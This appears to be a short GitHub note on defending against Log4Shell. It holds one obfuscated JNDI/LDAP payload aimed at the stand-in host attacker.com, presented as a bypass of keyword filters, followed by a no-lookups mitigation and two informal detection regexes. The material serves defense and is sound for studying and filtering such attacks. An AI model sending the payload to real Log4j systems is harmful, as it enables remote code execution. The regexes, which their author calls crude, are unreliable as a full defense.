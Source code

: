 # Log4Shell notes

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:
```shell
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```
This gets past every filter I've found so far. There's no shortage of these bypasses.

Block the log4j zero day...
```shell
echo "export LOG4J_FORMAT_MSG_NO_LOOKUPS=true" >> /etc/profile.d/blockzero.sh`
```
I know that using regex is dumb and shit, but it's just first-line defense. This one I made is capable to detect obfuscated payloads and should produce very few false positives:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```
Added support for LDAPS:
```shell
\${(\${(.*?:|.*?:.*?:-)('|"|`)*(?1)}*|[jndi:lapsrm]('|"|`)*}*){9,11}
```
Also, better pipe the logs through an URL decoder before running the regex
